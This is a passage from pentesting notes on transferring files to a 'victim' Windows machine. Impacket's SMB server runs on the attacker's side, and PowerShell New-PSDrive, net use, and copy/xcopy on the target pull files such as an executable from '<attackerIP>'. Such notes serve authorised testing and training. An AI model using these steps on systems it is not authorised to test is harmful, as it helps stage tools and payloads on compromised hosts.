 ```
impacket-smbserver <sharename> '<path>'
```

Mount this file share in victim using PowerShell:

```
New-PSDrive -Name "<ShareName>" -PSProvider "FileSystem" -Root "\\<attackerIP>\<ShareName>
```

Change into the new drive:

```
cd <ShareName>:
```

### Alternative Methods

In modern Windows operating systems, SMB2 is the default version that's supported. If you're pentesting a modern Windows machine, you may want to specify `-smb2support` option and maybe some credentials as well with `-user username  -p password` here is an example:

On your machine/host:

```
sudo impacket-smbserver <shareName> $(pwd) -smb2support -user <user> -p <password>
```

Then on the victim machine, we'll connect back to this SMB share, but first, we need to specify the credentials mentioned in the above command. To do that, we’ll use the following commands:

```
$pass = ConvertTo-SecureString '<password>' -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential('<user>', $pass)
New-PSDrive -Name "<ShareName>" -PSProvider "FileSystem" -Root "\\<attackerIP>\<ShareName> -Credential $cred
```

**Alternatively**, we can just do this:

```
# use double-quotes if file path has spaces in it 
sudo impacket-smbserver abcd /path/to/serve

# Mount drives with cmd.exe
net use abcd: \\kali_ip\myshare
net use abcd: /d # disconnect
net use abcd: /delete # then delete

# Mount drives with PowerShell
New-PSDrive -Name "abcd" -PSProvider "FileSystem" -Root "\\ip\abcd"
Remove-PSDrive -Name abcd
```

**Alternatively**, if we which to just copy the file instead of mounting PSDrive we can use copy or xcopy commands as follows:

```
# Share
impacket-smbserver <ShareName> '<path>'
impacket-smbserver <ShareName> $(pwd) -smb2support

# Copy | Transfer
copy \\<YOUR_IP>\<ShareName>\filename.exe
xcopy \\<YOUR_IP>\<ShareName>\filename.exe
```

